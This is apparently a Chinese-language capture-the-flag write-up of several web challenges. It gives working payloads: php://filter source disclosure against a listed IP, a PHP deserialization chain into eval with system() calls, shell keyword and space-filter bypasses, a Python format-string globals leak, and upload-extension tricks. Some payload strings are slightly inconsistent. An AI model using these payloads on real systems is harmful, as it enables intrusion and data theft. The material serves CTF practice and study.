 ## baby-file

![[Pasted image 20231206085736.png]]
#### payload：
82.157.146.43:17682/?file=php://filter/convert.base64-encode/resource=flag.php
然后base64解码查看flag的源码




## object
源码：
```php
 <?php
error_reporting(0);
//flag在flag.php里
class flag
{
    public $cmd='index.php';

    public function __destruct(){
        if (preg_match('/\w+\((?R)?\)/', $this->cmd)){
            eval('$a="'.$this->cmd.'";');
        }
        else {
            die('hack!!!');
        }
    }
}


if (!isset($_GET['fl']) || !isset($_GET['ag'])) {
    die(@highlight_file('index.php',true));
}
else {
    if (!(preg_match('/[A-Za-z0-9]+\(/i', $_GET['fl']))) {
        die('hack!!!');
    }
    else {
        echo unserialize($_GET['ag']);
    }
} 

```

发现ag是一个序列化后的字符串，调用unserialize前并没有对ag进行过滤处理，这个函数参数可以是integer、float、string、array 或 object，如果传递的字符串不可解序列化，则返回 FALSE，若被解序列化的变量是一个对象，在成功地重新构造对象之后，PHP 会自动地试图去调用  `wakeup()`

回到这个代码：
class flag中，定义了析构函数`__destruct`，在 成员变量 `$cmd` 可以通过 正则表达式验证的情况，则可以构造任意字符串，利用 `eval` 执行。`/\w+\((?R)?\)/`这个正则，可能意在匹配一个函数，但是`(?R)`这个后面有一个`?`，匹配零次或一次，相当于可以忽略

再看`eval('$a="'.$this->cmd.'";');`,可以构造payload
```php
1";phpinfo();highlight_file("flag.php");system("whoami");"
```

所以把这个payload序列化一下：
```php
<?php
// 照抄一份flag类的定义
class flag
{
    public $cmd='index.php';

    public function __destruct(){
        if (preg_match('/\w+\((?R)?\)/', $this->cmd)){
            eval('$a="'.$this->cmd.'";');
        }
        else {
            die('hack!!!');
        }
    }
}
$class = new flag();
$class->cmd = '1";phpinfo();highlight_file("flag.php");system("whoami");"';
$class_ser = serialize($class);
print_r($class_ser);

```
输出
```bash
O:4:"flag":1:{s:3:"cmd";s:55:"1";time();highlight_file("flag.php");system("whoami");"";}
```
payload：
```
?fl=a
(&ag=O:4:"flag":1{s:3:"cmd";s:55:"1";time();highlight_file("flag.php");system("whoami");"";}
```

尝试后失败：
原因：
unserialize后的变量类型为object，而 echo不能直接输出未实现__toString方法的 object变量。但是我们无法去更改后台源码
灵活调整一下：找一种echo可以输出的东西，并且这个东西可以携带对象。能想到的是Array，键名随机，value值弄成对象即可。把该数组进行序列化。
```php
// class flag略，同上
$obj = new flag();
$obj->cmd='1";phpinfo();highlight_file("flag.php");system("whoami");"';
echo serialize(array(
    'a' => $obj
));
echo '<br>';
echo unserialize($_GET['a']);

```
输出：
```bash
a:1:{s:1:"a";O:4:"flag":1:{s:3:"cmd";s:58:"1";phpinfo();highlight_file("flag.php");system("whoami");"";}}$a="1";phpinfo();highlight_file("flag.php");system("whoami");""; 

```
再次尝试成功:
```
?fl=a(&ag=a:1:{s:1:"a";O:4:"flag":1:{s:3:"cmd";s:58:"1";phpinfo();highlight_file("flag.php");system("whoami");"";}}$a="1";phpinfo();highlight_file("flag.php");system("whoami");""; 
```



##  babeRCE

源码：
![[Pasted image 20231206102006.png]]

关于绕过空格:
本来有两种方法：
1.${IFS}
2.$IFS$9
但是这里过滤了数字 所以选择第一中绕过

关于限制关键词
1.可以用反斜杠绕过：
```
ca/t${IFS}fla/g.php
```
2.可以采用空变量来绕过:
```
ca$@t${IFS}fla$@g.php
```





## do you know http

X-Forwarded-For:127.0.0.1
Referer:www.ltyyds.com
User-Agent:LT




##  fake galgame

### 原型链污染

原型对象：
JavaScript 中所有的对象都有一个内置属性，称为它的 **prototype**（原型）。它本身是一个对象，故原型对象也会有它自己的原型，逐渐构成了**原型链**。原型链终止于拥有 **null** 作为其原型的对象上

但是：：：
指向对象原型的属性并**不**是 `prototype`。它的名字不是标准的，但实际上所有浏览器都使用   
`__proto__`  
访问对象原型的标准方法是 Object.getPrototypeOf()

原型对象的属性不是实例对象自身的属性。只要修改原型对象，变动就立刻会体现在所有实例对象上

#### 总结：
原型对象的作用，就是定义所有 实例对象 共享的属性和方法。这也是它被称为原型对象的原因，而实例对象可以视作从原型对象衍生出来的子对象。
![[Pasted image 20231206113125.png]]
![[Pasted image 20231206113108.png]]



## 地狱通信

![[Pasted image 20231206115236.png]]


在format之前exp已经拼接进去了，由于`{0}`是flAg（经过FLAG方法处理，可能是与flag相关的对象），构造`exp={0.__class__.__init__.__globals__}`，读取flAg对象所在类的所有全局变量，找到flag




## ezphp
![[Pasted image 20231206141711.png]]

?a=flag&flag=a




php3，php5，pht，phtml，phps都是php可运行的文件扩展名

